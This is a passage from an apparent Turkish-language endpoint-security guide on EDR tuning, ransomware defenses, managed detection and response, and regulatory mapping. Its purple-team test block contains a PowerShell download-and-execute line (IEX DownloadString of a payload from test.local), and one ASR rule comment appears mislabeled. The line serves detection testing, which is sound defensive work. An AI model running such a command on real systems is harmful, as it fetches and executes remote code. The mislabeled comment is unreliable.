| **3. Whitelist** | 2 hafta | False positive kaynaklarına istisna | FP oranı <%5 hedef |
| **4. Enforcement** | Kademeli | Kritik kurallar önce block; düşük risk izleme | Üretim politikası |
| **5. Sürekli İyileştirme** | Aylık | Purple team, yeni yazılım, yama sonrası gözden geçirme | Tuning raporu |

### False Positive Azaltma Stratejileri

**1. Parent-Child İlişkisi Filtreleme:** `services.exe → svchost.exe` meşru; `winword.exe → powershell.exe -enc` anormal. EDR kurallarında parent process allowlist tanımlanmalıdır.

**2. Yol ve Publisher Bazlı İstisnalar:** Kurumsal uygulamaların kurulum dizinleri (`C:\Program Files\CorpApp\`) ve imzalayan sertifika thumbprint'leri allowlist'e eklenir. Hash bazlı istisna yerine **publisher** tercih edilir; yama sonrası hash değişse bile kural geçerliliğini korur.

**3. Davranış Skoru Eşikleri:** Tek bir düşük güvenilirlik göstergesi alarm üretmemeli; çoklu sinyal birleşimi (ör. LSASS erişimi + network outbound + yeni oturum) yüksek skorlu olay tetiklemelidir.

**4. Exclusion Scope Daraltma:** Global exclusion yerine OU/hostname/tag bazlı kısıtlı istisna uygulanır. Geliştirici makineleri ile finans iş istasyonları aynı EDR politikasına tabi olmamalıdır.

```powershell
# Microsoft Defender for Endpoint — örnek exclusion (dar kapsam)
Add-MpPreference -ExclusionPath "C:\CorpApp\BuildAgent\bin"
Add-MpPreference -ExclusionProcess "CorpBuildTool.exe"
# DİKKAT: Geniş exclusion (C:\Users\) asla uygulanmamalı
```

### Tuning Metrikleri ve SLA

| Metrik | Hedef | Ölçüm Yöntemi |
| :---- | :---- | :---- |
| False Positive Oranı | < %5 (kritik kurallar) | SOC ticket analizi |
| Mean Time to Detect (MTTD) | < 15 dk (Tier-0) | SIEM incident timestamp |
| Mean Time to Respond (MTTR) | < 1 saat (izolasyon) | SOAR playbook süresi |
| MITRE Kapsama | > %80 (kritik teknikler) | ATT&CK coverage matrix |
| Agent Sağlığı | > %99 filo | EDR console health dashboard |

:::caution
EDR tuning sırasında saldırganların istismar ettiği yolları (PowerShell, WMI, certutil) allowlist'e eklemek yaygın bir hatadır. İstisna her zaman **süreç + yol + kullanıcı + parent** dörtlüsüyle sınırlandırılmalıdır. Tüm exclusion değişiklikleri SIEM'de **T1562.001** (Disable or Modify Tools) benzeri denetim kuralıyla izlenmelidir.
:::

### Purple Team ile Doğrulama

Atomic Red Team veya MITRE ATT&CK Evaluations senaryoları, tuning sonrası tespit kapsamını doğrular:

```yaml
# Atomic Red Team — T1059.001 PowerShell testi
attack_technique: T1059.001
executor:
  name: powershell
  command: |
    IEX (New-Object Net.WebClient).DownloadString('http://test.local/payload.ps1')
expected_detection:
  - EventID: 4104
  - EDR_alert: "Suspicious PowerShell"
  - action: block_or_alert
```

Her başarısız tespit, tuning backlog'una eklenir; her false positive, allowlist gözden geçirmesine girer.

---

## §7.1.9. Uç Nokta Ransomware Savunması

Fidye yazılımı, uç nokta katmanında **T1486** (Data Encrypted for Impact) ve **T1490** (Inhibit System Recovery) teknikleriyle gerçekleşir. §5.4'teki immutable yedekleme katmanı son çare hattıdır; uç noktada saldırıyı erken aşamada durdurmak operasyonel maliyeti dramatik biçimde düşürür.

### Ransomware Saldırı Zinciri ve Savunma Noktaları

```
[Initial Access: T1566 Phishing / T1190 Exploit]
        │
        ▼
[Execution: T1059 PowerShell / T1204 User Execution]
        │  ← ASR kuralları, WDAC, AMSI
        ▼
[Discovery: T1083 File Discovery / T1018 Remote System Discovery]
        │  ← EDR davranışsal tespit
        ▼
[Lateral Movement: T1021 SMB/RDP]
        │  ← LAPS, tiered admin, micro-segmentation
        ▼
[Impact Prep: T1490 VSS/shadow delete / backup stop]
        │  ← Sysmon T1490 kuralları, EDR block
        ▼
[Impact: T1486 Mass encryption]
        │  ← EDR ransomware protection, canary files
        ▼
[Extortion: RaaS portal / double extortion]
```

### Katmanlı Ransomware Kontrolleri

| Katman | Kontrol | MITRE Karşılık | Araç |
| :---- | :---- | :---- | :---- |
| **Önleme** | ASR: Office makro engelleme | T1204.002 | Defender ASR |
| **Önleme** | WDAC/AppLocker allowlist | T1218 LOLBAS | Code Integrity |
| **Tespit** | VSS/shadow copy silme izleme | T1490 | Sysmon + Wazuh |
| **Tespit** | Yüksek hızlı dosya şifreleme | T1486 | EDR ML/behavioral |
| **Müdahale** | Otomatik host izolasyonu | — | EDR/SOAR |
| **Kurtarma** | Ransomware rollback (snapshot) | T1486 | SentinelOne vb. |
| **Kurtarma** | Immutable yedek restore | T1490 | §5.4 mimarisi |

### Microsoft Defender Ransomware Koruması

```powershell
# ASR kuralları — ransomware önleme profili
Add-MpPreference -AttackSurfaceReductionRules_Ids 75668C1F-73B1-4CF0-BF93-3D7F0B6E9C45 -AttackSurfaceReductionRules_Actions Enabled
# Block Office makrolarının Win32 API çağrısı yapması

Add-MpPreference -AttackSurfaceReductionRules_Ids D4F940AB-401B-4EFC-AADC-AD5F3C50688A -AttackSurfaceReductionRules_Actions Enabled
# Block Office uygulamalarının child process oluşturması

Add-MpPreference -AttackSurfaceReductionRules_Ids 92E97FA1-2EDF-4476-BDD6-6DD0E4EABE8A -AttackSurfaceReductionRules_Actions Enabled
# Block Win32 API calls from Office macros
```

### Canary Dosya ve Erken Uyarı

Kritik dizinlere (ör. `C:\Users\Public\Documents\`) bilinçli olarak **canary dosyalar** yerleştirilir. Ransomware bu dosyaları şifrelemeye başladığında EDR veya FIM (Wazuh) anında alarm üretir — toplu şifreleme başlamadan önce müdahale penceresi açılır.

```xml
<!-- Wazuh FIM — canary dosya izleme -->
<syscheck>
  <directories realtime="yes" report_changes="yes">C:\CanaryFiles</directories>
</syscheck>
```

**Wazuh özel kural:**

```xml
<rule id="100550" level="15">
  <if_sid>550</if_sid>
  <field name="file">(?i)canary</field>
  <description>CRITICAL: Ransomware canary dosyasi degistirildi — T1486</description>
  <mitre><id>T1486</id></mitre>
</rule>
```

### BDDK ve KVKK Perspektifi

**BDDK** siber olay bildirimi ve 24 saat süreklilik gereksinimleri, ransomware senaryosunda uç nokta tespit hızını doğrudan etkiler. **KVKK Madde 12(5)** kapsamında kişisel veri şifrelenmişse veri ihlali bildirimi gerekir; erken tespit ve izolasyon, etkilenen kayıt sayısını minimize ederek bildirim kapsamını daraltır.

---

## §7.1.10. MDR (Managed Detection and Response)

Kurumların önemli bir kısmı 7/24 SOC kapasitesine, yeterli analist sayısına veya tehdit avcılığı (threat hunting) yetkinliğine sahip değildir. **MDR (Managed Detection and Response)**, EDR/XDR telemetrisini üçüncü taraf veya MSSP (Managed Security Service Provider) üzerinden 7/24 izleyen, olayları triyaj eden ve müdahale eden hizmet modelidir.

### MDR vs MSSP vs SOC-as-a-Service

| Model | Kapsam | Kurum Sorumluluğu | Tipik SLA |
| :---- | :---- | :---- | :---- |
| **MSSP (geleneksel)** | Log toplama + temel alarm | Olay müdahale kuruma ait | 8×5 veya 24×7 NOC |
| **MDR** | EDR telemetri + tehdit avcılığı + müdahale | Strateji ve onay | 24×7, MTTD <30 dk |
| **SOC-as-a-Service** | SIEM + EDR + ağ + bulut korelasyonu | Tam yönetimli veya hibrit | 24×7, tiered response |
| **Dahili SOC** | Tüm katmanlar kurum içi | Tam sorumluluk | Kuruma özel |

### MDR Hizmet Bileşenleri

1. **Telemetri Toplama:** EDR agent, Sysmon, Windows Event Forwarding, ağ flow
2. **Tehdit İstihbaratı:** STIX/TAXII feed, MISP, vendor threat graph
3. **Korelasyon ve Triyaj:** Analyst tiering (L1/L2/L3), false positive filtreleme
4. **Müdahale (Response):** Host izolasyonu, süreç sonlandırma, dosya karantina, credential reset
5. **Raporlama:** Aylık tehdit raporu, MITRE kapsama, KVKK/BDDK uyum kanıtı

### MDR Seçim Kriterleri

| Kriter | Değerlendirme Soruları | Referans |
| :---- | :---- | :---- |
| **MITRE ATT&CK kapsama** | Hangi teknikler tespit ediliyor? Evaluations sonucu? | MITRE Evaluations |
| **Yanıt yetkisi** | Otomatik izolasyon var mı? Onay süreci? | SLA dokümanı |
| **Veri yerleşimi** | Telemetri Türkiye/yurt içi mi? KVKK uyumu? | KVKK m.9 aktarım |
| **Entegrasyon** | Mevcut SIEM/SOAR ile API entegrasyonu? | Teknik POC |
| **Şeffaflık** | Ham telemetriye erişim? Kural tuning yetkisi? | Sözleşme maddesi |
| **Olay müdahale** | IR retainer dahil mi? Forensics desteği? | NIST SP 800-61 |

### Hibrit MDR Mimarisi

Çoğu Fortune 500 kurumu **hibrit model** tercih eder: Tier-0/Tier-1 varlıklar dahili SOC; geniş filo ve uzak şubeler MDR sağlayıcısı üzerinden izlenir.

```
┌─────────────────────────────────────────────────────────────┐
│                    KURUMSAL SOC (Dahili)                     │
│  Tier-0: AD, PKI, Core Banking │ SIEM + SOAR + Playbook   │
├─────────────────────────────────────────────────────────────┤
│                    MDR SAĞLAYICI (MSSP)                      │
│  Geniş filo (10.000+ endpoint) │ 24×7 triyaj + izolasyon  │
│  Threat hunting (haftalık)    │ IOC geri besleme → MISP  │
├─────────────────────────────────────────────────────────────┤
│                    ORTAK PLATFORM                            │
│  EDR Console │ SIEM (Wazuh/Splunk) │ TheHive/MISP │ SOAR   │
└─────────────────────────────────────────────────────────────┘
```

:::note
**BDDK** finans kuruluşları için KSOME kurulumunu zorunlu kılar; MDR hizmeti KSOME'nin yerine geçmez, ancak 7/24 izleme kapasitesini tamamlar. Sözleşmede veri işleme sözleşmesi (DPA), KVKK aydınlatma yükümlülüğü ve olay bildirim SLA'ları açıkça tanımlanmalıdır.
:::

### MDR Olay Müdahale Akışı

| Adım | MDR Aksiyonu | Kurum Aksiyonu | Süre |
| :---- | :---- | :---- | :---- |
| 1. Tespit | EDR yüksek skorlu alarm | — | 0–5 dk |
| 2. Triyaj | L1 analist doğrulama | Bilgilendirme (P3/P2) | 5–15 dk |
| 3. Kontrol | Host izolasyonu (otomatik/onaylı) | Onay (Tier-0 için) | 15–30 dk |
| 4. Analiz | L2/L3 kök neden, IOC çıkarımı | IR ekibi devreye | 30 dk–4 saat |
| 5. Temizlik | Karantina, persistence silme | Eradication onayı | 4–24 saat |
| 6. Rapor | Olay raporu + MITRE haritası | KVKK/BDDK bildirim değerlendirmesi | 24–72 saat |

---

## §7.1.11. Türkiye Mevzuatı ve Uyum Eşlemesi

| Kontrol | KVKK | CBDDO BİGR | BDDK BSEBY | CIS v8 | NIST 800-53 |
| :---- | :---- | :---- | :---- | :---- | :---- |
| Anti-malware/EDR | Rehber (antivirüs) | 3.1.5.1/3.1.5.4 | Md. 16 | Control 10 | SI-3 |
| Application allowlisting | Default-deny | — | Md. 16/(2) | Control 2 | CM-7(5) |
| Yama yönetimi | Rehber | 3.1.3.3 | Yama süreci | Control 7 | SI-2 |
| Log yönetimi | Log kayıtları | 3.1.5.6 | Md. 13 (5 yıl) | Control 8 | AU-2/AU-6 |
| Disk şifreleme | Şifreleme tedbiri | Sıkılaştırma | Md. 16 | Control 3 | SC-28 |

**KVKK ihlal bildirimi:** Kurul Kararı 2019/10, ihlalin öğrenilmesinden itibaren en geç **72 saat** içinde bildirimi somutlaştırır. EDR/XDR'ın hızlı tespit kabiliyeti bu yükümlülük için operasyonel olarak kritiktir.

**5651:** Yer sağlayıcı 1–2 yıl, erişim sağlayıcı 6 ay–2 yıl log saklama; WORM storage ve log bütünlük imzalama mimari girdisidir.

---

## Özet ve Mimari Tavsiyeler

Uç nokta güvenliği artık pasif "son hat" değil, telemetrinin doğduğu ve saldırı zincirinin en erken kırılabileceği aktif katmandır. Sistem mimarı için temel çıkarımlar:

1. **Önleme → Tespit → Müdahale kademelemesi:** Önce EPP/sıkılaştırma (GPO, LAPS, BitLocker, WDAC) ile yüzeyi daralt; sonra EDR ekle; korele edilecek katmanlar olduğunda XDR'a geç. Pilot ring'de 30 gün audit modu temiz çıktığında enforcement'a geç.

2. **EDR tuning sürekli süreçtir:** Dağıtım sonrası false positive yönetimi, publisher bazlı allowlist ve purple team doğrulaması olmadan EDR yatırımı tam kapasiteye ulaşamaz. FP oranı %5 altında tutulmalıdır.

3. **Ransomware çok katmanlı savunma gerektirir:** ASR kuralları, canary dosyalar, T1490/T1486 SIEM kuralları ve §5.4 immutable yedekleme birlikte uygulanmalıdır. Uç noktada erken tespit, ödeme yapmadan kurtarma şansını artırır.

4. **MDR kapasite boşluğunu kapatır:** 7/24 SOC yetkinliği olmayan kurumlar için MDR hibrit model (dahili Tier-0 + MSSP geniş filo) önerilir. KVKK veri işleme sözleşmesi ve MITRE kapsama değerlendirmesi seçim kriteridir.

5. **Davranışsal telemetri zorunluluğu:** Polimorfik ve dosyasız tehditler karşısında imza tek başına yetersizdir. Sysmon + PowerShell Script Block Logging (4104) + EDR davranışsal kuralları minimum tabandır.

6. **Mevzuat-mimari hizalaması:** Log saklama süreleri (5651, BDDK 5 yıl), 72 saatlik KVKK bildirimi ve CBDDO merkezi log gereksinimleri mimari tasarım girdisi olarak en baştan ele alınmalıdır.

7. **Red Team doğrulama:** Atomic Red Team ile tespit kurallarını doğrula; MITRE ATT&CK kapsama ölçümü yap.

**Uygulama kontrol listesi:**

- [ ] CIS Benchmarks + Microsoft Security Baselines GPO/Intune dağıtımı
- [ ] LAPS + BitLocker zorunlu hale getirilmesi
- [ ] WDAC audit → enforce geçişi
- [ ] Linux sysctl + SELinux/AppArmor enforcing + SCA
- [ ] Merkezi yama yönetimi + EPSS/KEV önceliklendirme
- [ ] EDR/XDR pilot + SIEM entegrasyonu + SOC playbook güncellemesi
- [ ] EDR tuning: audit mode → whitelist → enforcement (FP <%5)
- [ ] Ransomware: ASR + canary dosya + T1490/T1486 SIEM kuralları
- [ ] MDR değerlendirmesi: hibrit SOC modeli veya MSSP POC
- [ ] Bellek koruma + ASR kuralları + behavioral detection tuning
- [ ] 5651/KVKK/BDDK log bütünlüğü ve saklama sürelerine uyum